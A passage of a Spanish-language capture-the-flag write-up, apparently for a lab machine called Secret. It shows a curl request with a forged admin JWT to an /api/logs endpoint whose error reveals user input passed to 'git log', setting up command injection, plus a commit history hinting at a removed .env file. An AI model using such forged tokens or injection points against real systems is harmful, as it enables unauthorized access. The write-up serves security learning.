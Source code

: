 Al hacer una petición a `http://10.129.246.38:3000/api/logs` nos devuelve esta repuesta

```
# curl http://10.129.246.38:3000/api/logs -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NjdhYjMyYjU3YmZiNzA0N2EzZTJmZDAiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFzZGZAdGVzdC5jb20iLCJpYXQiOjE3MTkzNDAzMjB9.L5KCGvWNkVLN7BEUPAUczQTGYP-xDoXGOMzsbovgt_k'  
{"killed":false,"code":128,"signal":null,"cmd":"git log --oneline undefined"}
```

Si vemos el código del archivo `./local-web/routes/private.js`,  vemos como funciona internamente las peticiones al endpoint /logs, podríamos haber evitado la fuerza bruta leyendo el código más detenidamente

![](/assets/img/Secret/image_8.png)

Cuando nosotros usamos este comando en el proyecto, nos devuelve `todos` los `commits`

```
# git log --oneline
e297a27 (HEAD -> master) now we can view logs from server 😃
67d8da7 removed .env for security reasons
de0a46b added /downloads
4e55472 removed swap
3a367e7 added downloads
55fe756 first commit
```

Sin embargo si usamos este comando, nos devuelve el `commit introducido` y todos los `anteriores`
